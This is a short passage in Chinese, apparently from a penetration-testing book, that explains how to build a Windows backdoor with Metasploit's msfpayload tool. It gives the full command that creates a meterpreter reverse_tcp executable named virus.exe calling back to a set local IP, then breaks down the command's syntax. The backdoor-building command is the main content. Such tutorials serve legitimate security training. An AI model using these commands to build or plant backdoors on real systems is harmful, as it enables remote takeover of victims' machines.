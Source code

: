 现在我们在目录中，可以使用`msfpayload`创建后门；即`msfpayload`的位置。输入`./msfpayload -h`将显示`msfpayload`的所有可用命令。

![Creating an EXE backdoor](img/3589_10_05.jpg)

我们看到`<payload>`有一个选项。这意味着我们必须首先从有效负载列表中选择一个有效负载，该列表已通过`show payloads`命令显示给您。现在我们选择一个有效载荷。

![Creating an EXE backdoor](img/3589_10_06.jpg)

例如，在这里我们选择`windows/x64/meterpreter/reverse_tcp`有效载荷来创建我们的后门。

现在输入`./msfpayload windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 X> root/Desktop/virus.exe`。

使用的语法如下所示：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 X> (Giving path directory where to create virus.exe backdoor)- root/Desktop/virus.exe

```
